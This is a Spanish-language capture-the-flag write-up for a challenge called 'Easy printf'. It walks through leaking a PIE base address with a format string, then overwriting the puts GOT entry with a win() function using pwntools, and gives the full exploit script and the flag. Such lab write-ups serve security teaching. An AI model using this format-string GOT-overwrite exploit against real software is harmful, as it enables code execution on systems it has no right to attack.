 # Easy printf

## Analisis
```
checksec --file=vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   33 Symbols	  No	0		2		vuln
```

El binario tiene Partial RELRO, lo que significa que la sección .got.plt (Global Offset Table for PLT) sigue siendo modificable para permitir la carga dinámica de funciones (lazy binding).

Tambien acepta dos entradas de usuario, en ambas es vulnerable a cadena formateada:
```
./vuln
Haha my buffer cant be overflowed and there is pie, ill even let you read and print twice
%p
0x7ffcc0d762d0
@%x
c0d762d0
@nice try
```

Mas informacion sobre la vulnerabilidad de cadena formateada [aqui](https://axcheron.github.io/exploit-101-format-strings/)

Tiene una funcion `win` que llama a `system` para leer la flag:
```
nm vuln | grep -i " t "
0000000000001290 T _fini
0000000000001000 T _init
00000000000011b3 T main
0000000000001090 T _start
0000000000001189 T win
```
```
[0x00001090]> s sym.win ;pdf
/ 42: sym.win ();
|           0x00001189      55             push rbp
|           0x0000118a      4889e5         mov rbp, rsp
|           0x0000118d      488d05740e..   lea rax, str.what_how_did_you_do_it__________ ; 0x2008 ; "what how did you do it??????????"
|           0x00001194      4889c7         mov rdi, rax                ; const char *format
|           0x00001197      b800000000     mov eax, 0
|           0x0000119c      e8cffeffff     call sym.imp.printf         ; int printf(const char *format)
|           0x000011a1      488d05810e..   lea rax, str.cat_flag.txt   ; 0x2029 ; "cat flag.txt"
|           0x000011a8      4889c7         mov rdi, rax                ; const char *string
|           0x000011ab      e8b0feffff     call sym.imp.system         ; int system(const char *string)
|           0x000011b0      90             nop
|           0x000011b1      5d             pop rbp
\           0x000011b2      c3             ret
```

Sin embargo no es invocada desde ningun sitio:
```
[0x000011b3]> axt sym.win
[0x000011b3]>
```

Nuestro objetivo es lograr invocar la funcion `win()` por medio de la sobreescritura de la seccion .got.plt

## Filtrado y calculo de direcciones de memoria

Si ccolocamos un breakpoint antes del printf que hace echo a la primera entrada (*main+132) y observamos la pila vemos que el parametro #25 contiene la direccion de main:

![2025-04-18-162221_518x675_scrot](https://github.com/user-attachments/assets/cba53bea-6502-4902-8272-333f2c0d6e96)

Con ese valor y el offset de main podemos calcular la direccion base del binario:
```
nm vuln | grep main
                 U __libc_start_main@GLIBC_2.34
00000000000011b3 T main
```

``` python
from pwn import *
elf = context.binary = ELF("./vuln")
io = process("./vuln")
#io = remote("74.207.229.59","20221")
#gdb.attach(io,gdbscript="""
#           break *main+186
#           """)

# Conseguir la direccion base del binario
io.recvuntil(b"Haha my buffer cant be overflowed and there is pie, ill even let you read and print twice")
io.sendline(b'%25$p')

io.recvline()
leak = int(io.recvline().strip(),16)
main_offset = 0x000011b3 
elf.address = leak - main_offset
```

## Sobreescritura de puts
El flujo del programa se realiza en main, no podemos sobreescribir la direccion de retorno, pero podemos sobreescribir la direccion de una funcion despues de la segunda entrada en `.got.plt`, `puts`.

Ya tenemos la direccion base, para la sobreescritura del GOT usaremos la utilidad de pwntools `fmtstr_payload`. Si bien puede hacerse manual, este metodo es mas eficiente:
``` python
# Sobreescribir la direccion de puts en la GOT
payload = fmtstr_payload(6, {elf.got.puts:elf.sym.win},write_size='short') # Automatico
io.sendline(payload)
io.recvuntil(b"how did you do it??????????")
success(f"flag.txt: {io.recvline().decode()}")
```

## Solucion final
``` python
from pwn import *
elf = context.binary = ELF("./vuln")
io = process("./vuln")
#io = remote("74.207.229.59","20221")
#gdb.attach(io,gdbscript="""
#           break *main+186
#           """)

# Conseguir la direccion base del binario
io.recvuntil(b"Haha my buffer cant be overflowed and there is pie, ill even let you read and print twice")
io.sendline(b'%25$p')
io.recvline()
leak = int(io.recvline().strip(),16)
main_offset = 0x000011b3 
elf.address = leak - main_offset

# Sobreescribir la direccion de puts en .got.plt
payload = fmtstr_payload(6, {elf.got.puts:elf.sym.win},write_size='short') # Automatico
io.sendline(payload)
io.recvuntil(b"how did you do it??????????")
success(f"flag.txt: {io.recvline().decode()}")
```

`texsaw{Pr1nt1ng_tHe_Fs_15_e4sy}`

